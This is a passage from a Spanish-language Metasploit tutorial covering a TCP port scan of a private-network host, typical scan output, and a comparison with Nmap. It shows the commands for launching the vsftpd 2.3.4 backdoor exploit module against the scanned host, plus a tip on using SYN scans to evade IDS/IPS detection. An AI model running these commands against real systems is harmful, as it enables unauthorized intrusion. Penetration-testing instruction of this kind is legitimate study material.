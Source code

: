 Esto escaneará los puertos del 21 al 1000 en la IP objetivo con 20 hilos simultáneos.

---

#### 🔹 Paso 6: Ejecutar el escaneo

```bash
run
```

Resultado típico:

```
[*] 192.168.1.105:21 - TCP OPEN
[*] 192.168.1.105:22 - TCP OPEN
[*] 192.168.1.105:80 - TCP OPEN
[*] 192.168.1.105:111 - TCP OPEN
```

¡Listo! Ahora sabes qué servicios están expuestos y puedes usar exploits específicos.

---

### ✅ Comparación con Nmap

Nmap también hace escaneos, pero Metasploit te permite **integrar directamente con exploits**, además de automatizar tareas posteriores.

Por ejemplo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.105
run
```

---

### 🧠 Consejos útiles

- Puedes escanear rangos completos: `set RHOSTS 192.168.1.0/24`
- Puedes usar varios módulos: también hay auxiliares para **servicios específicos** (como `scanner/ssh/ssh_version`)
- Para evitar ser detectado por IDS/IPS, usa `scanner/portscan/syn` (tipo stealth)

---

[🔼](#índice)

---

## **945. Importando informes de Nmap**

### 🧠 ¿Qué significa importar informes de Nmap?

Cuando haces un escaneo con **Nmap**, puedes guardar los resultados en un **archivo XML**.
